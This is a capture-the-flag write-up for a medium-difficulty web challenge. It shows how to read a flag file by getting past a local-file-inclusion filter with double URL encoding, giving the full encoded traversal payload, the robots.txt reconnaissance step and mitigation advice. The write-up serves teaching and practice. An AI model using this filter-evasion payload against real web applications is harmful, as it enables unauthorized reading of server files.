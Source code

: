 # Secure Archive - Web Security Challenge

## Challenge Information
- **Category:** Web Application Security
- **Points:** TBD
- **Difficulty:** Medium
- **Target:** https://safearchive.cyberbattle.info/

## Challenge Description
A Local File Inclusion (LFI) vulnerability challenge that tests understanding of URL encoding bypass techniques. The application implements security filters that can be circumvented using double URL encoding.

## Vulnerability Overview
The web application suffers from a **Local File Inclusion (LFI)** vulnerability with attempted input filtering that can be bypassed through **Double URL Encoding**.

## Security Filters
The application blocks the following parameters:
- `../` (directory traversal)
- `flag` (direct flag access attempts)
- `..\` (Windows-style directory traversal)

## Filter Bypass Technique
- **Single URL encoding**: Gets detected and blocked by security filters
- **Double URL encoding**: Bypasses the security filters successfully

## Solution Process

### Step 1: Reconnaissance
Check `robots.txt` to discover hidden directories and files:
```
https://safearchive.cyberbattle.info/robots.txt
```

This reveals the location of the flag file in `/secret_data/flag.txt`

### Step 2: Initial Attempt (Blocked)
Direct attempt using single encoding:
```
https://safearchive.cyberbattle.info/view?template=../secret_data/flag&format=txt
```
❌ **Result**: Blocked by security filters

### Step 3: Double URL Encoding Bypass
Apply double URL encoding to bypass filters:
```
https://safearchive.cyberbattle.info/view?template=%252E%252E%252F%2573%2565%2563%2572%2565%2574%255F%2564%2561%2574%2561%252F%2566%256C%2561%2567&format=txt
```
✅ **Result**: Successfully bypasses filters and retrieves flag

## URL Encoding Breakdown
```
Original: ../secret_data/flag
Single:   ..%2Fsecret_data%2Fflag  
Double:   %252E%252E%252F%2573%2565%2563%2572%2565%2574%255F%2564%2561%2574%2561%252F%2566%256C%2561%2567
```

## Key Learning Points
- **Filter Evasion**: Security filters may only check for single-encoded patterns
- **Double Encoding**: Encoding already encoded data can bypass detection
- **Reconnaissance**: Always check `robots.txt` for sensitive file locations
- **LFI Exploitation**: Directory traversal vulnerabilities allow access to unauthorized files

## Screenshots
- `1. Homepage.png` - Application homepage
- `2. Sample Report.png` - Normal application functionality
- `3. Security In Place.png` - Security filter activation
- `4. robots.png` - robots.txt discovery
- `5. Double Encoding.png` - Successful bypass demonstration

## Mitigation
- Implement proper input validation and sanitization
- Use whitelist-based filtering instead of blacklist
- Decode input multiple times before validation
- Implement proper access controls for sensitive files
- Avoid direct file inclusion based on user input

## Tools Used
- Web browser for manual testing
- URL encoding tools
- Burp Suite (optional for request manipulation)

## Flag Format
`CBCTF{...}`
